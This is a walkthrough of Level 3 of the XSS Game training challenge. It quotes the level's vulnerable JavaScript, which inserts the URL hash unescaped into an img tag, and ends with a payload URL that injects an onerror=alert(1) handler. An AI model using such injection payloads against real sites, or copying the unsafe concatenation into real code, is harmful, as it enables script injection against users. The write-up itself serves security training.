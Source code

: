 ```yaml
---
title: Level 3 - That sinking feeling...
edit_url: null
---
```


![1](https://github.com/user-attachments/assets/90bc719e-e4ad-4584-bb07-1e6d9be989df)

## Hints

> 1. To locate the cause of the bug, review the JavaScript to see where it handles user-supplied input.

> 2. Data in the `window.location` object can be influenced by an attacker.

> 3. When you've identified the injection point, think about what you need to do to sneak in a new HTML element.

> 4. As before, using `<script> ...` as a payload won't work because the browser won't execute scripts added after the page has loaded.

## Script

```html {17,20} showLineNumbers title="index.html"
<!doctype html>
<html>
  <head>
    <!-- Internal game scripts/styles, mostly boring stuff -->
    <script src="/static/game-frame.js"></script>
    <link rel="stylesheet" href="/static/game-frame-styles.css" />
 
    <!-- Load jQuery -->
    <script
      src="//ajax.googleapis.com/ajax/libs/jquery/2.1.1/jquery.min.js">
    </script>
 
    <script>
      function chooseTab(num) {
        // Dynamically load the appropriate image.
        var html = "Image " + parseInt(num) + "<br>";
        html += "<img src='/static/level3/cloud" + num + ".jpg' />";
        $('#tabContent').html(html);
 
        window.location.hash = num;
 
        // Select the current tab
        var tabs = document.querySelectorAll('.tab');
        for (var i = 0; i < tabs.length; i++) {
          if (tabs[i].id == "tab" + parseInt(num)) {
            tabs[i].className = "tab active";
            } else {
            tabs[i].className = "tab";
          }
        }
 
        // Tell parent we've changed the tab
        top.postMessage(self.location.toString(), "*");
      }
 
      window.onload = function() { 
        chooseTab(unescape(self.location.hash.substr(1)) || "1");
      }
 
      // Extra code so that we can communicate with the parent page
      window.addEventListener("message", function(event){
        if (event.source == parent) {
          chooseTab(unescape(self.location.hash.substr(1)));
        }
      }, false);
    </script>
 
  </head>
  <body id="level3">
    <div id="header">
      <img id="logo" src="/static/logos/level3.png">
      <span>Take a tour of our cloud data center.</a>
    </div>
 
    <div class="tab" id="tab1" onclick="chooseTab('1')">Image 1</div>
    <div class="tab" id="tab2" onclick="chooseTab('2')">Image 2</div>
    <div class="tab" id="tab3" onclick="chooseTab('3')">Image 3</div>
 
    <div id="tabContent"> </div>
  </body>
</html>
```

In the source code we can see that the `num` variable is populated with the value of `window.location.hash`.

```
e.g.
URL: https://xss-game.appspot.com/level3/frame#1
num = 1
```

The value of `num` is then inserted into the source address of the image.

```
e.g.
num = 1
html += "<img src='/static/level3/cloud1.jpg' />";
```

## Exploitation

Since we can control the value of `window.location.hash`, we can control the source address of the image.

### Payload

In order to solve this level, we can provide the following URI: 

```
https://xss-game.appspot.com/level3/frame#4' onerror=alert(1) ";
```

This will cause the source code to look as follows:

![2](https://github.com/user-attachments/assets/c345dba4-deb0-44ef-b5f9-008f1136bcdc)

![3](https://github.com/user-attachments/assets/b82506c9-d1ed-484c-9e68-e7a52114b10c)
